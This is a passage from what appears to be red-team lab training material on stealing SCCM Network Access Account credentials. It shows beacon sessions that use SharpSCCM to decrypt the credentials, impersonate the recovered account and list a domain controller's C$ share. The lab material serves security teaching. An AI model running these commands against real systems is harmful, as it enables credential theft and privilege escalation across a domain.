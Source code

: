 In a Windows environment, the majority of computers will be domain-joined and will therefore authenticate to SCCM Software Distribution Points (SDPs) (basically just SMB shares) using their own machine account credentials.  However, some computers may not be domain-joined.  Network Access Account credentials (NAAs) are domain credentials intended to be used by these machines to access the SDPs over the network.  They are passed to the machines as part of the SCCM machine policies, which are then encrypted using DPAPI and stored locally.  If they are present, privileged users can retrieve these credential blobs via WMI or directly from disk and decrypt them to recover plaintext credentials.

Use `local naa` with `-m wmi` or `-m disk`.
```

beacon> getuid
[*] You are DEV\bfarmer (admin)

beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe local naa -m wmi --no-banner

[+] Connecting to \\127.0.0.1\root\ccm\policy\Machine\ActualConfig
[+] Retrieving network access account blobs via WMI
[+] Retrieving task sequence blobs via WMI
[+] Retrieving collection variable blobs via WMI

[...snip...]

[+] Decrypting network access account credentials

    NetworkAccessUsername: cyberbotic.io\sccm_svc
    NetworkAccessPassword: Cyberb0tic
```
  

These credentials should only have read access to the SDP, but are often times over privileged (sometimes even domain/enterprise admins).
```
beacon> make_token cyberbotic.io\sccm_svc Cyberb0tic
[+] Impersonated cyberbotic.io\sccm_svc (netonly)

beacon> ls \\dc-1.cyberbotic.io\c$
[*] Listing: \\dc-1.cyberbotic.io\c$\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     08/15/2022 15:26:54   $Recycle.Bin
          dir     08/10/2022 04:55:17   $WinREAgent
          dir     08/10/2022 05:05:53   Boot
          dir     08/18/2021 23:34:55   Documents and Settings
          dir     08/19/2021 06:24:49   EFI
          dir     05/08/2021 08:20:24   PerfLogs
          dir     09/26/2023 09:07:25   Program Files
          dir     08/10/2022 04:06:16   Program Files (x86)
          dir     09/26/2023 09:13:26   ProgramData
          dir     08/15/2022 15:07:48   Recovery
          dir     08/24/2022 11:05:32   Shares
          dir     09/26/2023 14:28:24   System Volume Information
          dir     08/15/2022 15:09:04   Users
          dir     09/26/2023 09:10:03   Windows
 427kb    fil     08/10/2022 05:00:07   bootmgr
 1b       fil     05/08/2021 08:14:33   BOOTNXT
 12kb     fil     09/27/2023 09:28:28   DumpStack.log.tmp
 1kb      fil     09/25/2023 19:07:33   ExtADSch.log
 384mb    fil     09/27/2023 09:28:28   pagefile.sys
```
  

An alternate approach is to request a copy of the policy directly from SCCM using `get naa`.  This also requires local admin on the local machine to obtain a copy of its SMS Signing and SMS Encryption certificates.